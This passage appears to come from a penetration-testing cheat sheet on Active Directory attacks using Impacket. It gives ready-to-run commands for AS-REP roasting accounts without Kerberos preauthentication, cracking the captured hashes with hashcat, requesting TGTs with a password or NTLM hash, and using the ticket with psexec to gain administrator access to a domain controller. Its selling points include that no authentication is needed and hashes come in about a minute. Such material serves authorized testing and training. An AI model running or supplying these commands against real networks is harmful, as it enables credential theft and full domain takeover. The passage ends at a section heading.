 **When:** You have list of usernames, NO password needed

**What it does:** Request AS-REP for accounts with "Do not require Kerberos preauthentication"

```bash
# With username list
impacket-GetNPUsers CORP/ -usersfile users.txt -dc-ip 10.10.10.10

# Try common usernames (no file)
impacket-GetNPUsers CORP/ -dc-ip 10.10.10.10 -no-pass

# Output (if vulnerable user found):
$krb5asrep$23$user@CORP.LOCAL:abc123def456...  ← Crackable hash!

# Save to file
impacket-GetNPUsers CORP/ -usersfile users.txt -dc-ip 10.10.10.10 -format hashcat -outputfile asrep-hashes.txt
```

**Crack:**
```bash
hashcat -m 18200 asrep-hashes.txt rockyou.txt
```

**Advantages:**
- ✅ No authentication needed (only usernames)
- ✅ Often overlooked misconfiguration
- ✅ Can be done from unauthenticated position

**Time: 1 minute to get hashes**

---

### getTGT.py - Get Kerberos Ticket

**When:** Have password/hash, need Kerberos ticket for other attacks

```bash
# Get TGT with password
impacket-getTGT 'CORP/user:Password123' -dc-ip 10.10.10.10

# Get TGT with hash
impacket-getTGT -hashes ':NTLM_HASH' 'CORP/administrator' -dc-ip 10.10.10.10

# Output: user.ccache (Kerberos ticket file)

# Use ticket with other tools:
export KRB5CCNAME=user.ccache
impacket-psexec -k -no-pass 'administrator@DC01.corp.local'
```

---

## 4. Credential Formats & Authentication Methods
